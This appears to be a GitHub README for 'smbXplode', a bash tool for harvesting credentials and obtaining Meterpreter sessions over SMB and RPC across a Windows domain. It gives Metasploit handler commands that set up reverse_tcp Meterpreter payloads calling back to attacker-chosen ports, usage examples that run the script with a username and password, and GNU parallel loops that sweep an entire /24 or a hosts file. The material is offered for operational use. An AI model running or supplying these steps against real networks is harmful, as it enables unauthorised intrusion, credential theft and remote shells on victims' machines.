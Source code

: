# smbXplode

This tool is used to automate the process of harvesting credentials and getting meterpreter sessions throught the smb and rpc in a windows domain.
For this to work you would need to have some kind of admin credentials to start with. or you could have some low previledge creds that you want to try them agains the whole range and try to escalate your priviledge later on. 

You can always re-adapt msfcommands.rc to automate the metasploit commands that you wanna run once you have a session. 

Also notice that due to the use of net rpc, you need to migrate first thing after a session otherwise the session would die. Unless you want to use the winexe command ( which you can find commented in the script ).

### Usage 
Before running this script, simply make sure that you have two payload files (32 & 64 bit). Make sure to update the name of the files accordingly in the script. 


#### Handler
Make sure to have your Metasploit handler listening for both payloads ( you can listen two different ports for 32, and 64 ).
Also, make sure you select the correct payload for the handler, I will demonstrate the reverce_tcp (32 and 64) 

example :
use exploit/multi/handler
set autorunscript multi_console_command -rc /path/to/msfcommands.rc
set ExitOnSession false
set payload windows/x64/meterpreter/reverse_tcp
set lhost 0.0.0.0
set lport 1111
run -j -z
set payload windows/meterpreter/reverse_tcp
set lport 2222
run -j -z

Now make sure that your connect back payloads are configured to match those ports and payload type. 

#### Single Host
To run the script simply use the following syntax
./smbXplode.sh domain username password hostIP

example : 
./smbXplode.sh domain tito Password2015 10.10.10.10

#### Multiple Hosts
So far it's not really integrated into the script, as I like to keep it as simple as possible. I rely on GNU parallel to do that. 
Notice that parallel passes the IP as the last parameter already. 

example 
running against a /24
for i in {1..254}; do echo 10.10.10.$i; done | parallel -j 5 ./smbXplode.sh domain tito Password2015

running against host ips file
cat hosts.txt | parallel -j 5 ./smbXplode.sh domain tito Password2015

